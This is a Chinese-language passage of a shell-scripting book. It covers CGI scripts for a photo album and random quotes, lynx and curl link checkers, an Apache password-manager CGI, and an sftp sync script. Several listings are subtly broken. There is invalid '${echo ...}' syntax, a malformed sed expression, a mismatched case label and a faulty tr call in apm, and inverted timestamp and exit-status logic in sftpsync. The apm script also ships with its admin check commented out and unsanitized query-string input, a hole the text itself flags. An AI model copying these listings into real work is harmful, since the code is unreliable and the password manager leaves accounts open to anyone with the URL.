因此，生成的电子邮件包含了页面上的所有内容，包括菜单、图像以及所有的页脚和版权信息，如图 8-4 所示。


图 8-4：将最新的 Straight Dope 文章直接发送到你的收件箱

### 修改脚本

有时你可能想在周末花一两个小时阅读过去一周的文章，而不是每天接收一封电子邮件。这类聚合电子邮件通常被称为 *邮件摘要 (email digests)*，在一次阅读中处理起来会更容易。一个不错的改进方法是更新脚本，使其获取过去七天的文章，并在周末结束时通过一封电子邮件全部发送。这样还能减少你在一周内收到的邮件数量！

## #67 创建基于 Web 的相册

CGI shell 脚本并不局限于处理文本。网站的一个常见用途是作为相册，允许你上传大量图片，并配备某种软件来帮助组织所有内容并方便浏览。令人惊讶的是，使用 shell 脚本可以非常容易地生成一个目录中照片的基本“校样页 (proof sheet)”。在清单 8-8 中显示的脚本仅有 44 行。

### 代码

```bash
#!/bin/bash
# album--Online photo album script
echo "Content-type: text/html"
echo ""

header="header.html"
footer="footer.html"
count=0

if [ -f $header ]; then
    cat $header
else
    echo "<html><body bgcolor='white' link='#666666' vlink='#999999'><center>"
fi

echo "<table cellpadding='3' cellspacing='5'>"

for name in $(file /var/www/html/* | grep image | cut -d: -f1)
do
    name=$(basename $name)
    if [ $count -eq 4 ]; then
        echo "</td></tr><tr><td align='center'>"
        count=1
    else
        echo "</td><td align='center'>"
        count=$(( $count + 1 ))
    fi
    nickname="${echo $name | sed 's/.jpg//;s/-/ /g'}"

    echo "<a href='../.$name' target=_new></a><br>"
    echo "<span style='font-size: 80%'>$nickname</span>"
done

echo "</td></tr></table>"

if [ -f $footer ] ; then
    cat $footer
else
    echo "</center></body></html>"
fi

exit 0
```

清单 8-8：相册脚本

### 工作原理

这里的绝大部分代码都是用于创建美观输出格式的 HTML。去掉 `echo` 语句后，这就是一个简单的 `for` 循环，它遍历 `/var/www/html` 目录（Ubuntu 14.04 的默认 Web 根目录）中的每个文件，并通过使用 `file` 命令识别哪些文件是图像。

该脚本最适合采用某种文件命名约定，即文件名中用连字符代替空格。例如，`sunset-at-home.jpg` 的 `name` 值被转换为 `sunset at home` 这一 `nickname`。这是一个简单的转换，但它允许相册中的每张照片都有一个美观、易读的名称，而不是像 `DSC00035.JPG` 这样不雅的名称。

### 运行脚本

要运行此脚本，请将其放入一个装满 JPEG 图像的目录中，并将脚本命名为 `index.cgi`。如果你的 Web 服务器配置正确，只要不存在 `index.html` 文件，请求查看该目录时会自动调用 `index.cgi`。现在你就拥有了一个即时的动态相册。

### 结果

给定一个风景照目录，结果非常令人满意，如图 8-5 所示。请注意，`header.html` 和 `footer.html` 文件位于同一目录中，因此它们也会被自动包含在输出中。


图 8-5：用 44 行 shell 脚本创建的即时在线相册！

### 修改脚本

该脚本的一个限制是，为了显示相册视图，必须下载每张图片的完整尺寸版本。如果你有十几张 100MB 的图片文件，对于连接速度较慢的用户来说，这可能需要很长时间。缩略图实际上并没有变小。解决方案是自动创建每张图像的缩放版本，这可以通过在脚本中使用 ImageMagick 等工具来实现（见第 322 页的脚本 #97）。不幸的是，很少有 Unix 安装包含这种复杂的图形工具，因此如果你想朝着这个方向扩展相册，请先访问 `http://www.imagemagick.org/` 了解更多关于 ImageMagick 工具的信息。

另一种扩展此脚本的方法是使其能够为任何子目录显示可点击的文件夹图标，这样相册就可以像整个文件系统或照片树一样运行，并组织成作品集。

这个相册脚本一直是我最喜欢的。使用 shell 脚本的令人愉快之处在于，可以通过成千上万种方式极其轻松地扩展功能。例如，通过使用一个名为 `showpic` 的脚本来显示较大的图像，而不是简单地链接到 JPEG 图像，只需大约 15 分钟即可实现每张图像的计数系统，这样人们就可以看到哪些图像最受欢迎。

## #68 显示随机文本

许多 Web 服务器提供内置的 *服务器端包含* (SSI) 功能，允许你在将网页提供给访问者时调用一个程序，向网页中添加一行或多行文本。这为扩展你的网页提供了绝佳的方式。我们最喜欢的功能之一是能够地在每次加载页面时更改网页的一个元素。该元素可以是图形、新闻片段、推荐子页，或者是网站本身的标语（每次访问略有不同），以吸引读者再次光临。

值得注意的是，这个技巧通过一个仅包含几行 `awk` 程序的 shell 脚本就能轻松实现，该脚本通过 SSI 或 `iframe`（一种让页面部分内容由与页面其余部分不同的 URL 提供的方案）在网页内部被调用。脚本如清单 8-9 所示。

### 代码

```bash
#!/bin/bash

# randomquote--Given a one-line-per-entry datafile,
#     randomly picks one line and displays it. Best used
#     as an SSI call within a web page.

awkscript="/tmp/randomquote.awk.$$"

if [ $# -ne 1 ] ; then
    echo "Usage: randomquote datafilename" >&2
    exit 1
elif [ ! -r "$1" ] ; then
    echo "Error: quote file $1 is missing or not readable" >&2
    exit 1
fi

trap "rm -f $awkscript" 0

cat << "EOF" > $awkscript
BEGIN { srand() }
    { s[NR] = $0 }
END { print s[randint(NR)] }
function randint(n) { return int (n * rand() ) + 1 }
EOF

awk -f $awkscript < "$1"

exit 0
```

清单 8-9：`randomquote` 脚本

### 工作原理

给定一个数据文件的名称，该脚本首先检查文件是否存在且可读。然后，它将整个文件传递给一个简短的 `awk` 脚本，该脚本将每一行存储在数组中，计算行数，然后随机选择数组中的一行并将其打印到屏幕上。

### 运行脚本

该脚本可以通过以下代码行集成到兼容 SSI 的网页中：

```html
<!--#exec cmd="randomquote.sh samplequotes.txt"-->
```

大多数服务器要求包含此类服务器端包含的网页使用 `.shtml` 文件扩展名，而不是传统的 `.html` 或 `.htm`。通过这个简单的更改，`randomquote` 命令的输出就被合并到了网页的内容中。

### 结果

你可以通过在命令行直接调用来测试此脚本，如清单 8-10 所示。

```text
$ randomquote samplequotes.txt
Neither rain nor sleet nor dark of night...
$ randomquote samplequotes.txt
The rain in Spain stays mainly on the plane? Does the pilot know about this?
```

清单 8-10：运行 `randomquote` 脚本

### 修改脚本

让 `randomquote` 使用的数据文件包含一个图形图像名称列表会非常简单。然后你就可以使用此脚本来轮播一组图形。一旦你思考这个点子，你会意识到你可以用它做很多事情。

# 9 Web 和互联网管理

如果你正在运行着一台 Web 服务器，或者负责维护一个网站（无论简单还是复杂），你可能会发现自己频繁地执行某些任务，特别是识别网站内部和外部的失效链接。通过使用 Shell 脚本，你可以将许多此类任务自动化，以及一些常见的客户端/服务器任务，例如管理受密码保护的网站目录的访问信息。

## #69 识别失效的内部链接

第 7 章中的几个脚本强调了纯文本 Web 浏览器 `lynx` 的功能，但这个强大的软件应用程序中还隐藏着更多功能。对于 Web 管理员来说，一个特别有用的功能是遍历功能（使用 `-traversal` 启用），它能让 `lynx` 尝试逐步访问站点上的所有链接，以检查是否有任何失效链接。这一特性可以通过一个简短的脚本来利用，详情见代码清单 9-1。

### 代码


```bash
#!/bin/bash

# checklinks--遍历网站上的所有内部 URL，并将
# 任何错误报告在 "traverse.errors" 文件中

# 完成后删除所有 lynx 遍历输出文件。
trap "$(which rm) -f traverse.dat traverse2.dat" 0

if [ -z "$1" ]; then
    echo "Usage: checklinks URL" >&2
    exit 1
fi

baseurl=$(echo $1 | cut -d/ -f3 | sed 's/http:\/\/\///')

lynx -traversal -accept_all_cookies -realm "$1" > /dev/null

if [ -s "traverse.errors" ]; then
    /bin/echo -n $(wc -l < traverse.errors) errors encountered.
    echo Checked $(grep "http" traverse.dat | wc -l) pages at $1:
    sed "s|^[|g" < traverse.errors
    mv traverse.errors ${baseurl}.errors
    echo "A copy of this output has been saved in ${baseurl}.errors"
else
    /bin/echo -n "No errors encountered. ";
    echo Checked $(grep "^http" traverse.dat | wc -l) pages at $1
fi

if [ -s "reject.dat" ]; then
    mv reject.dat ${baseurl}.rejects
fi

exit 0
```

代码清单 9-1：`checklinks` 脚本

#### 工作原理

该脚本的大部分工作是由 `lynx` ➊ 完成的；脚本只是对生成的 `lynx` 输出文件进行处理，以便以美观的方式汇总和显示数据。`lynx` 输出文件 `reject.dat` 包含指向外部 URL 的链接列表（关于如何利用这些数据，请参阅第 220 页的脚本 #70），`traverse.errors` 包含失效链接列表（这是该脚本的核心），`traverse.dat` 包含所有检查过的页面列表，而 `traverse2.dat` 与 `traverse.dat` 相同，但它还包含了访问过的每个页面的标题。

`lynx` 命令可以接受许多不同的参数，在这种情况下，我们需要使用 `-accept_all_cookies`，这样程序就不会因为询问我们是否接受或拒绝页面的 cookie 而停顿。我们还使用了 `-realm`，以确保脚本仅检查站点中该点及其“下方”树形结构中的页面，而不是它遇到的每一个链接。如果没有 `-realm`，它在像疯子一样遍历时可能会挖掘出成千上万个页面。当我们对 `http://www.intuitive.com/wicked/` 运行 `-traversal` 而不使用 `-realm` 时，它在运行两个多小时后发现了 6,500 多个页面。而使用了 `-realm` 标志，它在短短几分钟内就确定了 146 个需要检查的页面。

#### 运行脚本

要运行此脚本，只需在命令行中指定一个 URL。你可以遍历并检查任何你想检查的网站，但请注意：检查像 Google 或 Yahoo! 这样的网站将耗时极久，并且在此过程中会耗尽你所有的磁盘空间。

#### 运行结果

让我们检查一个没有错误的微型网站（代码清单 9-2）。

```
$ checklinks http://www.404-error-page.com/
No errors encountered. Checked 1 pages at http://www.404-error-page.com/
```

代码清单 9-2：在没有错误的网站上运行 `checklinks`

果然，一切正常。那么稍微大一点的网站如何呢？代码清单 9-3 显示了 `checklinks` 对一个可能存在失效链接的网站的输出结果。

```
$ checklinks http://www.intuitive.com/library/
5 errors encountered. Checked 62 pages at http://intuitive.com/library/:
index/ in BeingEarnest.shtml
Archive/f8 in Archive/ArtofWriting.html
Archive/f11 in Archive/ArtofWriting.html
Archive/f16 in Archive/ArtofWriting.html
Archive/f18 in Archive/ArtofWriting.html
A copy of this output has been saved in intuitive.com.errors
```

代码清单 9-3：在具有失效链接的较大网站上运行 `checklinks`

这意味着文件 `BeingEarnest.shtml` 包含一个无法解析的指向 `/index/` 的链接：文件 `/index/` 不存在。此外，在 `ArtofWriting.html` 文件中还有四个奇怪的链接错误。

最后，在代码清单 9-4 中，让我们检查 Dave 的电影评论博客，看看潜伏着什么样的奇怪链接错误。

```
$ time checklinks http://www.daveonfilm.com/
No errors encountered. Checked 982 pages at http://www.daveonfilm.com/

real 50m15.069s
user 0m42.324s
sys 0m6.801s
```

代码清单 9-4：使用 `time` 工具运行 `checklinks` 脚本以了解所花费的时间

请注意，在耗时较长的命令前添加 `time` 调用是查看运行脚本所需时间的聪明方法。在这里你可以看到，检查 `http://www.daveonfilm.com/` 上的所有 982 个页面花费了 50 分钟的实际时间（real time），其中实际处理时间（processing time）为 42 秒。这相当之多！

#### 修改脚本

数据文件 `traverse.dat` 包含所有遇到的 URL 列表，而 `reject.dat` 是所有遇到但未检查的 URL 列表，通常是因为它们是外部链接。我们将在下一个脚本中处理这些内容。实际的错误可以在代码清单 9-1 中 ➊ 处的 `traverse.errors` 文件中找到。

如果要让该脚本报告图像引用错误，可以使用 `grep` 在将结果传递给 `sed` 语句（仅用于清理输出以使其美观）之前，在 `traverse.errors` 文件中搜索 `.gif`、`.jpeg` 或 `.png` 文件名后缀。

### #70 报告失效的外部链接

这个与脚本 #69 配套的脚本（代码清单 9-5）基于前一个脚本的输出，用于识别分析的站点或站点子目录中的所有外部链接，并测试每个链接以确保没有 “404 Not Found” 错误。为了方便起见，它假设之前的脚本刚刚运行过，因此它可以利用 `*.rejects` 文件获取 URL 列表。

#### 代码

```bash
#!/bin/bash

# checkexternal--测试网站上的所有 URL 以构建外部
# 引用列表，然后检查每一个以确定哪些可能已失效
# 或损坏。-a 标志强制脚本列出所有匹配项，
# 无论是否可访问；默认情况下，仅显示不可访问的链接。

listall=0; errors=0; checked=0

if [ "$1" = "-a" ] ; then
    listall=1; shift
fi

if [ -z "$1" ] ; then
    echo "Usage: $(basename $0) [-a] URL" >&2
    exit 1
fi

trap "$(which rm) -f traverse.errors reject*.dat traverse*.dat" 0

outfile="$(echo "$1" | cut -d/ -f3).errors.ext"
URLlist="$(echo $1 | cut -d/ -f3 | sed 's/\// /').rejects"

rm -f $outfile    # 为新输出做准备

if [ ! -e "$URLlist" ] ; then
    echo "File $URLlist not found. Please run checklinks first." >&2
    exit 1
fi

if [ ! -s "$URLlist" ] ; then
    echo "There don't appear to be any external links ($URLlist is empty)." >&2
    exit 1
fi

#### 现在，终于，我们可以开始了...

for URL in $(cat $URLlist | sort | uniq) 
do
    curl -s "$URL" > /dev/null 2>&1; return=$?
    if [ $return -eq 0 ] ; then
        if [ $listall -eq 1 ] ; then
            echo "$URL is fine."
        fi
    else
        echo "$URL fails with error code $return"
        errors=$((errors + 1))
    fi
    checked=$((checked + 1))
done

echo ""
echo "Done. Checked $checked URLs and found $errors errors."
exit 0
```

代码清单 9-5：`checkexternal` 脚本

#### 工作原理

这不是本书中最优雅的脚本。它更像是一种检查外部链接的暴力方法。对于发现的每个外部链接，`curl` 命令通过尝试抓取其 URL 的内容并在到达后立即将其丢弃来测试链接的有效性，这在 ❶ 的代码块中完成。

这里值得提到 `2>&1` 符号：它将输出设备 #2 重定向到输出设备 #1 所设置的任何设备。在 Shell 中，输出 #2 是 `stderr`（用于错误消息），输出 #1 是 `stdout`（常规输出）。单独使用时，`2>&1` 会使 `stderr` 流向 `stdout`。但在本例中，请注意，在此重定向之前，`stdout` 已经重定向到了 `/dev/null`。这是一个虚拟设备，可以接收无限量的数据而不会增加大小。把它想象成一个黑洞，你就理解正确了。因此，这种记法确保了 `stderr` 也被重定向到 `/dev/null`。我们丢弃这些信息，是因为我们真正感兴趣的仅仅是 `curl` 该命令返回的是零还是非零的返回码。零表示成功；非零表示错误。

遍历的内部页面数量就是 `traverse.dat` 文件的行数，而外部链接的数量可以通过查看 `reject.dat` 找到。如果指定了 `-a` 标志，输出将列出所有外部链接，无论它们是否可达。否则，仅显示失败的 URL。

#### 运行脚本

要运行此脚本，只需将要检查的站点 URL 作为参数传递给脚本即可。

#### 结果

让我们在代码清单 9-6 中检查 `http://intuitive.com/` 的死链情况。

```
$ checkexternal -a http://intuitive.com/
http://chemegdmod.slp.umd.edu/~kidwell/weather.html fails with error code 6
http://epoch.oreilly.com/shop/cart.asp fails with error code 7
http://exzone.org:1080/ez/ fails with error code 7
http://fx.crewtags.org/blog/ fails with error code 6
http://linc.homeunix.org:8080/reviews/wicked.html fails with error code 6
http://links.browser.org/ fails with error code 6
http://nell.bounder.lib.co.us/ fails with error code 6
http://rpms.arvin.dk/slocater/ fails with error code 6
http://tss.intuitive.com/ fails with error code 6
http://techweb.cmp.com/cw/webcommerce fails with error code 6
http://brooksrooks11.iamsends.com/ fails with error code 6
http://www.101publicrelations.com/blog/ fails with error code 6
http://www.badlink/somewhere.html fails with error code 6
http://www.bloghop.com/ fails with error code 6
http://www.bloghop.com/ratemyblog.htm fails with error code 6
http://www.blogphiles.com/webring/shtml.htm fails with error code 56
http://www.blogstreet.com/blogsqlin/home.cgi fails with error code 56
http://www.builder.cnet.com/ fails with error code 6
http://www.buzz.builder.com/ fails with error code 6
http://www.chem.csmoi.princeton.edu/html/index.html fails with error code 6
http://www.cogsci.princeton.edu/~wn/ fails with error code 6
http://www.ourecopass.org/ fails with error code 6
http://www.portfolio.intuitive.com/portfolio/ fails with error code 6

Done. Checked 156 URLs and found 23 errors.
```

代码清单 9-6：在 `http://intuitive.com/` 上运行 `checkexternal` 脚本

看来是时候进行一些清理了！

## 71 管理 Apache 密码

Apache Web 服务器的一个极佳特性是，它提供了对密码保护目录的内置支持，即使是在共享的公共服务器上也是如此。这是一个在网站上实现私有、安全且限制访问信息的绝佳方式，无论你是运行付费订阅服务，还是只想确保家庭照片仅由家人查看。

标准配置要求在密码保护的目录中管理一个名为 `.htaccess` 的数据文件。该文件指定了安全“区域”名称，更重要的是，它指向一个单独的数据文件，其中包含用于验证目录访问权限的账户名和密码对。管理这个文件没有问题，唯一的问题是 Apache 随附的唯一工具是原始的 `htpasswd` 程序，它在命令行上运行。作为另一个选择，本项目中的 `apm` 脚本（本书中最复杂、最精密的脚本之一）提供了一个在浏览器中作为 CGI 脚本运行的密码管理工具，让你能够轻松地添加新账户、更改现有账户的密码以及从访问列表中删除账户。

要开始使用，你需要一个格式正确的 `.htaccess` 文件来控制其所在目录的访问。为了演示目的，该文件可能如下所示：

```
$ cat .htaccess
AuthUserFile /usr/lib/cgi-bin/.htpasswd
AuthGroupFile /dev/null
AuthName "Members Only Data Area."
AuthType Basic

<Limit GET>
require valid-user
</Limit>
```

一个单独的文件 `.htpasswd` 包含所有账户和密码对。如果该文件尚不存在，你需要创建它。创建一个空文件即可：运行 `touch .htpasswd` 并确保运行 Apache 本身的用 ID（可能是 `nobody`）对其具有写权限。然后你就可以使用代码清单 9-7 中的脚本了。不过，这还要求在第 201 页的“运行本章中的脚本”部分中设置好 CGI 环境。请确保将此 Shell 脚本保存到你的 `cgi-bin` 目录中。

#### 代码


```bash
#!/bin/bash

# apm--Apache Password Manager allows the administrator to easily
# add, update, or delete accounts and passwords for a subdirectory
# of a typical Apache configuration (where the config file is called
# .htaccess).

echo "Content-type: text/html"
echo ""
echo "<html><title>Apache Password Manager Utility</title><body>"

basedir=$(pwd)
myname="$(basename $0)"
footer="$basedir/apm-footer.html"
htaccess="$basedir/.htaccess"

htpasswd="$(which htpasswd) -b"

# It's strongly suggested you include the following code for security purposes:
#
# if [ "$REMOTE_USER" != "admin" -a -s $htpasswd ] ; then
#   echo "Error: You must be user <code>admin</code> to use APM."
#   exit 0
# fi

# Now get the password filename from the .htaccess file.
if [ ! -r "$htaccess" ] ; then
  echo "Error: cannot read $htaccess file."
  exit 1
fi

passwdfile="$(grep "AuthUserFile" $htaccess | cut -d' ' -f2)"
if [ ! -r "$passwdfile" ] ; then
  echo "Error: can't read password file: can't make updates."
  exit 1
elif [ ! -w "$passwdfile" ] ; then
  echo "Error: can't write to password file: can't update."
  exit 1
fi

echo "<center><h1 style='background:#ccf;border-radius:3px;border:1px solid #99c;padding:3px;'>"
echo "Apache Password Manager</h1>"

action="$(echo $QUERY_STRING | cut -c3-)"
user="$(echo $QUERY_STRING | cut -d& -f2 | cut -d = -f2 | tr [:upper:] ':' [:lower:])"

case "$action" in
  a) echo "<h3>Adding New User <u>$user</u></h3>"
     if [ ! -z "$(grep -E "^($user):" $passwdfile)" ] ; then
       echo "Error: user <b>$user</b></b> already appears in the file."
     else
       pass="$(echo $QUERY_STRING | cut -d& -f3 | cut -d = -f2)"
       if [ ! -z "$(echo $pass | tr -d '[[:upper:]:[:lower:]:[:digit:]]')" ] ;
       then
         echo "Error: passwords can only contain a-z A-Z 0-9 ($pass)"
       else
         $htpasswd $passwdfile "$user" "$pass"
         echo "Added!<br>"
         fi
     fi
     ;;
  U ) echo "<h3>Updating Password for user <u>$user</u></h3>"
     if [ -z "$(grep -E "^($user):" $passwdfile)" ] ; then
         echo "Error: user <b>$user</b> isn't in the password file"
         echo "searched for \"${user}:\" in $passwdfile"
     else
         pass=$(echo $QUERY_STRING | cut -d& -f2)
         if [ ! -z "$(echo $pass | tr -d '[:upper:]:[:lower:]:[:digit:]]')" ] ;
         then
             echo "Error: passwords can only contain a-z A-Z 0-9 ($pass)"
         else
             grep -vE "^($user):" $passwdfile | tee $passwdfile > /dev/null
             $htpasswd $passwdfile "$user" "$pass"
             echo "Updated!<br>"
         fi
     fi
     ;;
  D ) echo "<h3>Deleting User <u>$user</u></h3>"
     if [ -z "$(grep -E "^($user):" $passwdfile)" ] ; then
         echo "Error: user <b>$user</b> isn't in the password file"
         elif [ "$user" = "admin" ] ; then
             echo "Error: you can't delete the 'admin' account."
         else
             grep -vE "^($user):" $passwdfile | tee $passwdfile > /dev/null
             echo "Deleted!<br>"
         fi
     fi
     ;;
esac

# Always list the current users in the password file...
# Build selectstring with all accounts included...
optionstring="$(cut -d: -f1 $passwdfile | sed s/^/<option>/ | tr '\n' '\n ')"

if [ ! -r $footer ] ; then
    echo "Warning: can't read $footer"
else
    # ...and output the footer.
    sed -e "s/--myname--/$\{myname\}/g" -e "s/--options--/$\{optionstring\}/g" < $footer
fi

exit 0
```

代码清单 9-7：`apm` 脚本

## 工作原理

为了让这个脚本正常工作，许多部分需要协同配合。你不仅需要正确配置 Apache Web 服务器（或同等配置），还需要在 `.htaccess` 文件中拥有正确的条目，并且需要一个至少包含 `admin` 用户条目的 `.htpasswd` 文件。

脚本本身从 `.htaccess` 文件中提取 `htpasswd` 文件名，并进行各种测试以规避常见的 `htpasswd` 错误情况，包括脚本无法写入文件的情况。所有这些操作都发生在脚本的主块（`case` 语句）之前。

## 处理 `.htpasswd` 的更改

`case` 语句决定请求执行三种可能操作中的哪一种——A 表示添加用户，U 表示更新用户记录，D 表示删除用户——并相应地调用正确代码段。要执行的操作以及执行操作的当前用户账户在 `QUERY_STRING` 变量中指定。该变量由 Web 浏览器在 URL 中以 `a=X&u=Y` 的形式发送给服务器，其中 `X` 是操作字母代码，`Y` 是指定的用户名。在更改密码或添加用户时，需要第三个参数 `p` 来指定密码值。

例如，假设我们要添加一个密码为 `knife` 的新用户 `joe`。此操作会导致 Web 服务器向脚本发送以下 `QUERY_STRING`：

```
a=A&u=joe&p=knife
```

脚本解包此字符串，将 `action` 变量设置为值 `A`，`user` 设置为 `joe`，`pass` 设置为 `knife`。然后它进行测试，以确保密码仅包含有效的字母字符。

最后，如果一切正常，它将调用 `htpasswd` 程序对密码进行加密并将其添加到 `.htpasswd` 文件中。除了处理对 `.htpasswd` 文件的更改外，此脚本还会生成一个 HTML 表格，列出 `.htpasswd` 文件中的每个用户及其对应的 `[delete]` 链接。

在为表格标题生成三行 HTML 输出后，脚本继续运行。此 `while` 循环通过将输入字段分隔符（`IFS`）更改为冒号，并在完成后将其还原，从而从 `.htpasswd` 文件中读取名称和密码对。

## 添加待执行操作的页脚

该脚本还依赖于一个名为 `apm-footer.html` 的 HTML 文件，其中包含字符串 `--myname--` 和 `--options--` ➊。当文件输出到 stdout 时，这两个字符串分别被替换为当前 CGI 脚本的名称和用户列表。

`$myname` 变量由 CGI 引擎处理，该引擎将变量替换为脚本的实际名称。脚本本身则根据 `.htpasswd` 文件中的账户名和密码对构建 `$options` 字符串变量。

代码清单 9-8 中的 HTML 页脚文件提供了添加用户、更新用户密码和删除用户的功能。

```html
<!-- footer information for APM system. -->

<div style='margin-top: 10px;'>
  <table border='1' cellpadding='2' cellspacing='0' width='80%'
      style='border:2px solid #666;border-radius:5px;'>
      <tr><th colspan='4' bgcolor='#Cccccc'>Password Manager Actions</th></tr>
      <tr>
        <td>
          <form method='get' action='--myname--'>
            <table>
              <tr>
                <td><input type='hidden' name='a' value='A'>
                add user:</td><td><input type='text' name='u' size='15'>
                </td><tr>
                <td>password:</td><td><input type='text' name='p' size='15'>
                </td><tr><td colspan='2' align='center'>
                <input type='submit' value='add' style='background-color:#ccf;'>
                </td></tr>
            </table>
          </form>
        </td>
      </tr>
      <tr>
        <td>
          <form method='get' action='--myname--'>
            <table>
              <tr>
                <td><input type='hidden' name='a' value='U'>
                update user:</td><td><select name='u'>--options--</select>
                </td><tr>
                <td>password:</td><td><input type='text' name='p' size='10'>
                </td><tr><td colspan='2' align='center'>
                <input type='submit' value='update' style='background-color:#ccf;'>
                </td></tr>
            </table>
          </form>
        </td>
      </tr>
      <tr>
        <td>
          <form method='get' action='--myname--'><input type='hidden'
            name='a' value='D'><select name='u'>--options--</select>
            <br /><br /> <center>
            <input type='submit' value='delete' style='background-color:#ccf;'> </center>
          </form>
        </td>
      </tr>
    </table>
  </div>

<h5 style='background:#ccf;border-radius:3px;border:1px solid #99c;padding:3px;'>
From the book <a href="http://www.intuitive.com/wicked/">Wicked Cool Shell Scripts</a>
</h5>

</body></html>
```

代码清单 9-8：用于添加创建新用户部分的 `apm-footer.html` 文件

## 运行脚本

你很可能希望将此脚本保存在你想要用密码保护的同一个目录中，不过你也可以像我们这样将其放在 `cgi-bin` 目录中。无论哪种方式，请确保根据实际情况调整脚本开头的 `htpasswd` 和目录值。你还需要一个定义访问权限的 `.htaccess` 文件，以及一个已存在且对运行系统中 Apache Web 服务器的用户可写的 `.htpasswd` 文件。

> **注意** 当你使用 `apm` 时，请确保创建的第一个账户是 `admin`，以便在随后的调用中使用该脚本！代码中有一个特殊的测试，如果 `.htpasswd` 为空，则允许你创建 `admin` 账户。

## 运行结果

运行 `apm` 脚本的结果如图 9-1 所示。请注意，它不仅列出了每个账户及其删除链接，还提供了添加另一个账户、更改现有账户密码、删除账户或列出所有账户的选项。



图 9-1：基于 shell 脚本的 Apache 密码管理系统

## 脚本改进

Apache 的 `htpasswd` 程序提供了一个便捷的命令行界面，用于将新账户和加密的密码信息附加到账户数据库中。但在两种常见的 `htpasswd` 分发版本中，只有一个支持脚本的批量使用——也就是说，能够从命令行向脚本同时提供账户和密码。很容易判断你的版本是否支持：如果你尝试使用 `-b` 标志且 `htpasswd` 没有报错，那么你拥有的是更好、更新的版本。不过，你大概率没问题。

请注意，如果此脚本安装不正确，任何获知 URL 的人都可以将自己添加到访问文件中并删除其他所有人。这非常糟糕。一种解决方案是仅在用户已登录为 `admin` 时才允许运行此脚本（如脚本顶部的注释代码所示）。另一种保证脚本安全的方法是将其放置在一个本身受密码保护的目录中。

# 使用 SFTP 同步文件

虽然 `ftp` 程序在大多数系统中仍然可用，但它正越来越多地被 `rsync` 和 `ssh`（secure shell）等新的文件传输协议所取代。原因有几点。自从本书第一版以来，在如今的“大数据”世界中，FTP 在扩展性和数据安全性方面开始显露弱点，而更高效的数据传输协议已成为主流。默认情况下，FTP 以明文形式传输数据，这对于受信任网络中的家庭或企业网络通常没有问题，但如果你是在图书馆或星巴克等开放网络中进行 FTP 传输，而许多人与你共享同一个网络，那就很危险。

所有现代服务器都应该支持安全性显著更高的 `ssh` 软件包，它支持端到端加密。加密传输中的文件传输部分是 `sftp`，虽然它甚至比 `ftp` 更原始，但我们仍然可以使用它。代码清单 9-9 展示了如何利用 `sftp` 安全地同步我们的文件。


> **注意**：如果你的系统中没有`ssh`，请向你的供应商和管理团队投诉。这没有任何理由不支持。如果你有访问权限，也可以在`http://www.openssh.com/`获取该软件包并自行安装。

### 代码实现

```bash
#!/bin/bash

# sftpsync--Given a target directory on an sftp server, makes sure that
# all new or modified files are uploaded to the remote system. Uses a
# timestamp file ingeniously called .timestamp to keep track.

timestamp=".timestamp"
tempfile="/tmp/sftpsync.$$"
count=0

trap "$(which rm) -f $tempfile" 0 1 15	# Zap tempfile on exit

if [ $# -eq 0 ] ; then
	echo "Usage: $0 user@host { remotedir } " >&2
	exit 1
fi

user="$(echo $1 | cut -d@ -f1)"
server="$(echo $1 | cut -d@ -f2)"

if [ $# -gt 1 ] ; then
	echo "cd $2" >> $tempfile
fi

if [ -f $timestamp ] ; then
	# If no timestamp file, upload all files.
	for filename in *
	do
		if [ -f "$filename" ] ; then
			echo "put -P \"$filename\"" >> $tempfile
			count=$(( ${count} + 1 ))
		fi
	done
else
	for filename in $(find . -newer $timestamp -type f -print)
	do
		echo "put -P \"$filename\"" >> $tempfile
		count=$(( ${count} + 1 ))
	done
fi

if [ $count -eq 0 ] ; then
	echo "$0: No files require uploading to $server" >&2
	exit 1
fi

echo "quit" >> $tempfile

echo "Synchronizing: Found $count files in local folder to upload."

if ! sftp -b $tempfile "$user@$server" ; then
	echo "Done. All files synchronized up with $server"
	touch $timestamp
	exit 1
fi
exit 0
```

代码清单 9-9：`sftpsync`脚本

### 工作原理

`sftp`程序允许通过管道或输入重定向向其喂入一系列命令。这一特性使得该脚本相当简单：它几乎完全专注于构建一个用于上传所有更改文件的命令序列。最后，这些命令被喂给`sftp`程序执行。

如果你的`sftp`版本在传输失败时不能正确地向`shell`返回非零失败代码，只需删除脚本末尾的条件块，并将其替换为：

```bash
sftp -b $tempfile "$user@$server"
touch $timestamp
```

因为`sftp`要求账户必须指定为`user@host`格式，所以它实际上比等效的 FTP 脚本要简单一些。另外请注意`put`命令中添加的`-P`标志：它使得 FTP 在传输所有文件时能保留本地权限以及创建和修改时间。

### 运行脚本

进入本地源目录，确保目标目录存在，然后使用你的用户名、服务器名称和远程目录调用该脚本。对于简单场景，我们定义了一个名为`ssync`（source sync）的别名，它可以进入我们需要同步的目录并自动调用`sftpsync`。

```bash
alias ssync="sftpsync taylor@intuitive.com /wicked/scripts"
```

### 运行结果

使用用户、主机和要同步的目录作为参数运行`sftpsync`即可同步你的目录，如代码清单 9-10 所示。

```bash
$ sftpsync taylor@intuitive.com /wicked/scripts
Synchronizing: Found 2 files in local folder to upload.
Connecting to intuitive.com...
taylor@intuitive.com's password:
sftp> cd /wicked/scripts
sftp> put -P "./003-normdate.sh"
Uploading ./003-normdate.sh to /usr/home/taylor/usr/local/etc/httpd/htdocs/
intuitive/wicked/scripts/003-normdate.sh
sftp> put -P "./004-nicenumber.sh"
Uploading ./004-nicenumber.sh to /usr/home/taylor/usr/local/etc/httpd/htdocs/
intuitive/wicked/scripts/004-nicenumber.sh
sftp> quit
Done. All files synchronized up with intuitive.com
```

代码清单 9-10：运行`sftpsync`脚本

### 改造脚本

我们用于调用`sftpsync`的包装脚本是一个极其有用的脚本。在本书的整个开发过程中，我们一直使用它来确保位于`http://www.intuitive.com/wicked/`网页存档中的脚本副本与我们自己服务器上的脚本完全同步，同时避开了 FTP 协议的不安全性。

Listing 9-11 中的这个包装脚本`syncs`包含了所有必要的逻辑，用于跳转到正确的本地目录（见变量`localsource`）并创建一个包含所有文件最新版本的所谓 tarball 存档文件（得名于用于构建它的`tar`命令）。

```bash
#!/bin/bash

# sync--If anything has changed, creates a tarball and syncs a remote
# directory via sftp using sftpsync

sftpact="taylor@intuitive.com"
tarballname="AllFiles.tgz"
localsource="$HOME/Desktop/Wicked Cool Scripts/scripts"
remotedir="/wicked/scripts"
timestamp=".timestamp"
count=0

# First off, let's see if the local directory exists and has files.

if [ ! -d "$localsource" ] ; then
    echo "$0: Error: directory $localsource doesn't exist?" >&2
    exit 1
fi

cd "$localsource"

# Now let's count files to ensure something's changed.

